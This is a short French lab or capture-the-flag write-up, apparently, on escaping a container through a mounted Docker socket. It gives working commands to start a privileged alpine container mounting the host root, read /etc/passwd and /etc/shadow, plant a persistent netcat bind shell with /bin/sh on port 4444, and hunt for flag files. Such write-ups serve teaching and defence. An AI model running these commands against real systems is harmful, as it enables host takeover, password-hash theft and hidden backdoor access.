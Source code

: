 On a exploité la faille critique d'exposition du socket Docker dans un container qui n'aurait pas dû l'avoir. Cette exposition nous a permis de prendre le contrôle total de la machine hôte.

***

### Commandes et étapes clés

1. On a lancé le conteneur avec la socket Docker montée :

```bash
docker run -v /var/run/docker.sock:/var/run/docker.sock -p 8080:8080 socket-lab
```

2. Depuis la webapp, on a exécuté des commandes pour lister les conteneurs :

```python
import os
output = os.popen("docker ps").read()
print(output)
```

3. Pour accéder pleinement à la racine de l’hôte, on a lancé un conteneur alpine privilégié montant la racine hôte :

```python
import os
os.system("docker run --rm --privileged -v /:/host alpine chroot /host sh")
```

4. Depuis ce conteneur, on a lu des fichiers sensibles :

```python
import os
output = os.popen("cat /host/etc/passwd").read()
print(output)
```

```python
output = os.popen("cat /host/etc/shadow").read()
print(output)
```

5. Pour garder notre accès, on a déployé un conteneur netcat en persistant sur le port 4444 :

```python
import os
os.system("docker run -d --rm --privileged -p 4444:4444 -v /:/host alpine sh -c 'while true; do nc -l -p 4444 -e /bin/sh; done'")
```

6. On a cherché un fichier flag pour preuve avec :

```python
import os
output = os.popen(
  "docker run --rm --privileged -v /:/host alpine "
  "find /host/home /host/root -name '*flag*' -o -name '*.txt' 2>/dev/null"
).read()
print(output)
```
